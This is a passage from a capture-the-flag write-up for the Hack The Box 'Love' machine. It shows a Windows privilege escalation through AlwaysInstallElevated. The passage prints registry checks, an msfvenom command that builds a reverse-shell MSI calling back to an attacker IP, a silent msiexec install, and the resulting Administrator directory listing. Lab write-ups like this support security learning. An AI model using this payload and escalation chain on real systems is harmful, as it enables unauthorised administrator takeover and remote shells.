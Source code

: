 I checked on this system and it has that privileges to do so →

```powershell
C:\Users\Phoebe>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\Users\Phoebe>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```
{: .nolineno}

Then I created the payload as `msi` format through msfvenom →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Love]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.10 LPORT=445 -f msi -o shell.msi 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
Saved as: shell.msi
```
{: .nolineno}

Transferred it through `certutil.exe` Tool and Installed the MSI →

```powershell
msiexec /quiet /qn /i C:\Users\Phoebe\shell.msi
```
{: .nolineno}

![Untitled](Love/Untitled%2012.png)

```powershell
C:\Users\Administrator>tree /f /a
tree /f /a
Folder PATH listing
Volume serial number is 0319DDF8 56DE:BA30
C:.
+---3D Objects
+---Contacts
+---Desktop
|       root.txt
|       
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |   
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       
+---Music
+---OneDrive
+---Pictures
|   +---Camera Roll
|   \---Saved Pictures
+---Saved Games
```